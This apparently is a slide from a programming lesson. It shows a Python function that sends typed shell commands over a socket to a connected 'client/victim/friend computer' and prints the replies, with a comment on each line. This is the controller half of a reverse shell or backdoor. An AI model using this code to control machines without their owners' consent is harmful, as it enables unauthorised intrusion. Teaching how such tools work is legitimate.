

# Sending Commands to Client
#Sending Commands to client/victim/friend computer
def send_target_commands(conn):
    # to send more than one command use infinite while loop
    while True:
        try:
            cmd = input()

            # to stop the infinite loop, we need to quit
            if cmd == "quit":
                break
            # to convert any command entered in string format to byte format
            if len(str.encode(cmd)) > 0:
                conn.send(str.encode(cmd))  # to send commands to another computer
                client_response = str(conn.recv(20480),"utf-8")  # whenever data is received from client back, it has to be converted from byte to string.
                print(client_response, end="")  # here end parameter gets the cursor to next line after giving output.
        except:
            print("Error sending Commands.") #if client system is off then no more commands will be sent to it.
            break